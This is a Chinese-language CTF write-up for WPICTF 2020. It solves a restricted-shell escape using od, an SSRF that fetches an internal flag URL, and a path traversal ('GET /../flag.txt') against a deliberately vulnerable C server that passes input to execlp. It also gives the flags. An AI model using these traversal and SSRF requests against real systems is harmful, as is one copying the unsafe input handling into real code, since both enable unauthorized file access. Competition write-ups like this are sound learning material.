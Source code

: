```yaml
---
title: wpictf2020-wp
date: 2020-04-18 17:07:25
updated: 2020-04-18 17:07:25
tags:
 - ctf
 - wp
categories:
 - 日常刷题
---
```


# linux

## Suckmore Shell 2.0

题目给出了ssh服务器连接上后export不能用了

<!--more-->

Cat、tac、less等之类都能用后面发现od可以使用. [参考链接](https://www.cnblogs.com/ur10ser/p/7624367.html)

```bash
sx@kali blog % ssh smsh@smsh.wpictf.xyz
Password: 
> ls
flag
      
> 
> od -c flag
0000000   e   c   h   o       "   W   P   I   {   S   U   c   k   m   o
0000020   r   e   S   o   f   t   w   a   r   e   N   3   3   d   z   2
0000040   G   3   T   i   t   T   o   g   e   T   H   E   R   }   "  \n
0000060
> 
```





# web

## 👉😎👉

这个题目给了一堆emoji

![](/pic/147.png)

还给了一个网站

![](/pic/148.png)

在attach中有存在ssrf

![](/pic/149.png)

直接给出了flag， url填入http://storage.zoop/flag.txt即可

```
WPI{tH4nKs_z00m3r_jh0n50n}
```



## dorsia2

题目描述如下

```
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The second card.

http://dorsia2.wpictf.xyz:31337/index.html or 31338 or 31339

Firefox doesnt like the page... try chromium.


Hint: flag in ~/flag.txt
```

在视频中第二张卡片的内容为

```c
void main() {
char a[69]={0};
scanf("GET /%s", &a);
printf("HTTP 200\r\n\r\n");
fflush(stdout); 
execlp("cat",a,a,0);}
```

使用chrome浏览器访问，提示文本为发送。

使用nc/burp suite获取flag.txt

```bash
ncat dorsia2.wpictf.xyz 31337 
GET /../flag.txt
HTTP 200

WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}
```

```http
GET /../flag.txt HTTP/1.1
Host: dorsia2.wpictf.xyz:31337
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

